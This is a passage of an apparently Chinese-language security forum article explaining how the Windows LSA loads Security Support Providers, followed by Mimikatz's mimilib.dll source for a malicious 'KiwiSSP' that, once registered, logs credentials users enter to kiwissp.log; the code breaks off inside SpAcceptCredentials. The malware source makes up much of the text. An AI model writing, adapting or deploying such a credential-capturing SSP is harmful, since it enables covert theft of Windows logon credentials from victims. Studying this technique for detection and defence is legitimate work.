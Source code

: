 > “Kerberos” 表示 Microsoft Kerberos SSP/AP，“My SSP/AP” 表示包含两个自定义安全包的自定义 SSP/AP。

启动时，LSA 调用每个 SSP/AP 中的 [SpLsaModeInitialize()](https://learn.microsoft.com/zh-cn/windows/desktop/api/Ntsecpkg/nc-ntsecpkg-splsamodeinitializefn) 函数，以获取指向 DLL 中每个安全包实现的函数的指针，函数指针以 [SECPKG\_FUNCTION\_TABLE](https://learn.microsoft.com/zh-cn/windows/desktop/api/Ntsecpkg/ns-ntsecpkg-secpkg_function_table) 结构数组的形式传递给 LSA。

![the lsa calls splsamodeinitialize to get function pointers](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-76ee16c12f6669bf3af02d02ebb6ada7e4a408ba.png)

收到一组 [SECPKG\_FUNCTION\_TABLE](https://learn.microsoft.com/zh-cn/windows/desktop/api/Ntsecpkg/ns-ntsecpkg-secpkg_function_table) 结构后，LSA 将调用每个安全包所实现的 [SpInitialize()](https://learn.microsoft.com/zh-cn/windows/desktop/api/Ntsecpkg/nc-ntsecpkg-spinitializefn) 函数。LSA 使用此函数调用传递给每个安全包一个 [LSA\_SECPKG\_FUNCTION\_TABLE](https://learn.microsoft.com/zh-cn/windows/desktop/api/Ntsecpkg/ns-ntsecpkg-lsa_secpkg_function_table) 结构，其中包含指向安全包调用的 LSA 函数的指针。除了存储指向 LSA 支持函数的指针外，自定义安全包还应使用 [SpInitialize()](https://learn.microsoft.com/zh-cn/windows/desktop/api/Ntsecpkg/nc-ntsecpkg-spinitializefn) 函数的实现来执行任何与初始化相关的处理。

Main Detail
===========

Mimikatz 提供的 mimilib.dll 可被注册到系统中作为一个 SSP，为攻击者提供一种方法来检索由受害者输入的凭证，以下为主要功能的实现代码。

```c++
#include "kssp.h"

static SECPKG_FUNCTION_TABLE kiwissp_SecPkgFunctionTable[] = {
    {
    NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,
    kssp_SpInitialize, kssp_SpShutDown, kssp_SpGetInfo, kssp_SpAcceptCredentials,
    NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,
    NULL, NULL, NULL, NULL, NULL, NULL, NULL
    }
};

NTSTATUS NTAPI kssp_SpInitialize(ULONG_PTR PackageId, PSECPKG_PARAMETERS Parameters, PLSA_SECPKG_FUNCTION_TABLE FunctionTable)
{
    return STATUS_SUCCESS;
}

NTSTATUS NTAPI kssp_SpShutDown(void)
{
    return STATUS_SUCCESS;
}

NTSTATUS NTAPI kssp_SpGetInfo(PSecPkgInfoW PackageInfo)
{
    PackageInfo->fCapabilities = SECPKG_FLAG_ACCEPT_WIN32_NAME | SECPKG_FLAG_CONNECTION;
    PackageInfo->wVersion   = 1;
    PackageInfo->wRPCID     = SECPKG_ID_NONE;
    PackageInfo->cbMaxToken = 0;
    PackageInfo->Name       = L"KiwiSSP";
    PackageInfo->Comment    = L"Kiwi Security Support Provider";
    return STATUS_SUCCESS;
}

NTSTATUS NTAPI kssp_SpAcceptCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials)
{
    FILE *kssp_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
    if(kssp_logfile = _wfopen(L"kiwissp.log", L"a"))
#pragma warning(pop)
    {
```